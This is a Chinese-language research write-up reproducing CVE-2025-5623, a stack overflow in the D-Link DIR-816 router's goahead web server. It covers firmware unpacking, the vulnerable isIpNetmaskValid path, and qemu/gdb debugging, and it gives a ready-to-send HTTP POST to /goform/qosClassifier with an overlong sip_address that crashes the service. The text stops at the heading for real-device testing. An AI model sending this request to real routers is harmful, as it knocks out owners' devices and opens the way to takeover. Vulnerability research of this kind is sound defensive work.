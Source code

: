 # CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

固件：
[DIR-816A2_FWv1.10CNB05_R1B011D88210.img](imgs/DIR-816A2_FWv1.10CNB05_R1B011D88210.img)

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```

![image](.pictures/CVE-2025-5623-1-1.png)

这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )

![image](.pictures/CVE-2025-5623-1-2.png)

( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )

![image](.pictures/CVE-2025-5623-1-3.png)

( `isIpNetmaskValid` 中，漏洞片段。 )

![image](.pictures/CVE-2025-5623-1-4.png)

也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。

![image](.pictures/CVE-2025-5623-1-5.png)

得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。

![image](.pictures/CVE-2025-5623-1-6.png)

于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现分析

我们使用qemu user进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。反正在咸鱼花费15巨资买了真机，在这里运行起来便是完事大吉。

![image](.pictures/CVE-2025-5623-2-1.png)

我们使用 burp 对主页抓包，然后修改内容为我们的目标包：

![image](.pictures/CVE-2025-5623-2-2.png)

可以看到我们仿真的程序出现了segmentation fault，应该是栈溢出的结果。

![image](.pictures/CVE-2025-5623-2-3.png)

我们使用gdb进行进一步的调试,将断点设置在最后的函数上：

```bash
sudo chroot . ./qemu-mipsel-static -strace -g 1234 ./bin/goahead
```

```bash
gdb-multiarch ./bin/goahead
set architecture mips
target remote :1234

b isIpNetmaskValid
c
```

![image](.pictures/CVE-2025-5623-2-4.png)

此时，使用burp再次发包，观察断点，可以发现，此时栈上以及被我们写满了'AAAA'。确认是我们刚刚的payload生效才导致的栈溢出和segmentation fault。

![image](.pictures/CVE-2025-5623-2-5.png)

## 真机漏洞复现和调试